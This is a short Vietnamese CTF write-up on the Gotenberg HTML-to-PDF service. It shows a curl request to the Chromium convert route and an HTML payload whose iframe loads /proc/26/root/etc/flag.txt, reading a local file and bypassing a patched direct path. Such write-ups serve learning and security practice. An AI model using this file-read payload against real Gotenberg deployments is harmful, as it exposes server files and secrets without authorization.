

Bài này liên quan đến gói gotenberg

Cách sử dụng đọc ở đây:
https://gotenberg.dev/docs/routes

Đây giương như là phiên bản mới nhất, và bài này lúc giải diễn ra thì mình cũng không rõ cách làm, cho đến thi đọc wu thì thấy hay lên note lại.

```curl
curl \
--request POST http://localhost:3000/forms/chromium/convert/html \
--form files=@/path/to/index.html \
-o my.pdf
```
Đoạn này thực hiện chuyển html sang pdf để đọc flag
`index.html`
```html
<div class="page-break-after">
    <h2>/proc/26/root/etc/flag.txt</h2>
    <iframe src="/proc/26/root/etc/flag.txt"></iframe>
</div>
```

Đoạn này có nhiệm vụ là chuyển một file index.html sang pdf, và nếu ta để rõ đường dẫn `/etc/flag.txt` thì sẽ không được vì nó đã được fix từ phiên bản trước đó. 

Vì vậy mình tham khảo được thì họ xem các tiến trình đang chạy xem có cái nào tồn tại file flag.txt đang được bật không. 



chọn một trong các dòng ở trong hình là ta lấy được flag

